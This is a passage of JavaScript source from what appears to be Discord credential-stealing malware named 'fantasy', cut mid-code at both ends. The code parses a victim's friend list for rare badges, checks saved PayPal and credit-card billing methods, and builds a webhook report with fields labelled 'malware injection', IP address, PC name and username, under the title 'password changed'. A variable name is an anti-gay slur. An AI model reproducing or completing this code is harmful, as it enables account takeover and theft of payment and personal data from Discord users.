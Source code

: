                                     return user.type == 1
                                })
                                return r.length
                            }
                            function calcFriends() {
                                var f = JSON.parse(info4)
                                const r = f.filter((user) => {
                                    return user.type == 1
                                })
                                var gay = "";
                                for (z of r) {
                                    var b = GetRBadges(z.user.public_flags)
                                    if (b != "") {
                                        gay += b + ` ${z.user.username}#${z.user.discriminator}\n`
                                    }
                                }
                                if (gay == "") {
                                    gay = "no rare friends"
                                }
                                return gay
                            }
                            function cool() {
                                const json = JSON.parse(info3)
                                var billing = "";
                                json.forEach(z => {
                                    if (z.type == "") {
                                        return "\`❌\`"
                                    } else if (z.type == 2 && z.invalid != !0) {
                                        billing += "\`✔️\`" + " <:paypal:896441236062347374>"
                                    } else if (z.type == 1 && z.invalid != !0) {
                                        billing += "\`✔️\`" + " :credit_card:"
                                    } else {
                                        return "\`❌\`"
                                    }
                                })
                                if (billing == "") {
                                    billing = "\`❌\`"
                                }
                                return billing
                            }
                            const json = JSON.parse(info);
                            var params = {
                                username: "fantasy",
                                content: "",
                                embeds: [{
                                    "title": "password changed",
                                    "color": config['embed-color'],
                                    "fields": [{
                                        name: "malware injection",
                                        value: `\`\`\`${discordInstall}\n\`\`\``,
                                        inline: !1
                                    }, {
                                        name: "ip:",
                                        value: `\`${ip}\``,
                                        inline: !0
                                    }, {
                                        name: "pc name:",
                                        value: `\`${computerName}\``,
                                        inline: !0
                                    }, {
                                        name: "username:",
                                        value: `\`${json.username}#${json.discriminator}\``,
                                        inline: !0
                                    }, {